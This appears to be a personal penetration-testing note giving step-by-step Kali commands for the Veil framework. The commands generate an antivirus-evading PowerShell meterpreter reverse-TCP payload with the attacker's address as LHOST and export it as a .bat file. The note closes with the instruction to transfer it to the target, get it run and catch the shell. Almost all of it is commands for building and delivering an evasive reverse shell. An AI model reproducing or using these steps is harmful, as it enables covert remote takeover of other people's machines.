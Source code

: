 ```bash - kali
sudo apt install veil
```

```bash - kali
veil
```

Next through all the prompts if setting up for the first time.

If told to, run:
```bash - kali
/usr/share/veil/config/setup.sh --force --silent
```

```bash - kali
use 1
```

```bash - kali
list
```

example: `powershell/meterpreter/rev_tcp.py`

```bash - kali
use 22
```

```bash - kali
set LHOST $KALI
```

```bash - kali
options
```

```bash - kali
generate
```

```bash - kali
reverseveil
```

```bash - kali
cp /var/lib/veil/output/source/reverseveil.bat .
```

[[APON/7._Tools/Metasploit#Meterpreter Listener 1 Liner]]

Transfer to target, get it ran, catch shell.






